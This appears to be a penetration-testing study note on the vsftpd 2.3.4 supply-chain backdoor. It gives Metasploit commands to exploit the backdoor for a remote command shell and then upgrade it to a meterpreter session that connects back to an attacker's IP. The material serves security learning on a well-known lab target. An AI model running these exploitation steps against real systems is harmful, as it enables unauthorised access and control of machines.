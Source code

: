 * File Transfer Protocol
* Uses TCP port 21
* Facilitates file transfer to and from a web server.
* **vsftpd**
  * An FTP server for unix-like systems including Linux.
  * A default FTP server for Ubuntu, CentOS and Fedora.
  * **What is the vulnerability**
  * vsftpd V2.3.4 is vulnerable to a command execution vulnerability
  * Facilitated by a malicious backdoor
  * This backdoor is added to the vsftpd download archive through a supply chain attack, so that legitimate users were downloading this malicious backdoor.
 
  * PRACTICAL
  * `use exploit/unix/ftp/vsftpd_234_backdoor`
  * `setg rhosts`
  * `run` --> This should give a command shell on the target
  * `/bin/bash -i`
  * **To get a meterpreeter session**
  * `use post/multi/manage/shell_to_meterpreter`
  * `set lhost[Attacker's IP]`
  * `set session [ID of the session with command shell]`
  * `run`


